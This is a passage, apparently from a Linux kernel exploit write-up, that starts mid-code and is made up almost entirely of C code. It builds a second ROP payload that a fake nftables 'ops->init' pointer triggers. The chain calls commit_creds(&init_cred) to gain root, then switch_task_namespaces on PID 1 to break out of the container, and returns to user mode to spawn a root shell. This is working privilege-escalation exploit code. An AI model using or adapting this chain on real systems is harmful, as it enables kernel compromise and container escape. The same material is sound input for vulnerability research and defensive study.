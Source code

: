 ```c
    data[i++] = kbase + push_rsi_jmp_rsi_f; // ops.init
}
```

Then, when generating `counter expr`, fake `ops->init` is called and the second ROP payload is executed to get the root shell.

```c
void make_payload2(uint64_t* data){
    int i = 0;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;                  // rax
    data[i++] = 0;                  // rdx
    data[i++] = _user_rip;          // user_rip
    data[i++] = _user_cs;           // user_cs
    data[i++] = _user_rflags;       // user_rflags
    data[i++] = _user_sp;           // user_sp
    data[i++] = _user_ss;           // user_ss
}
```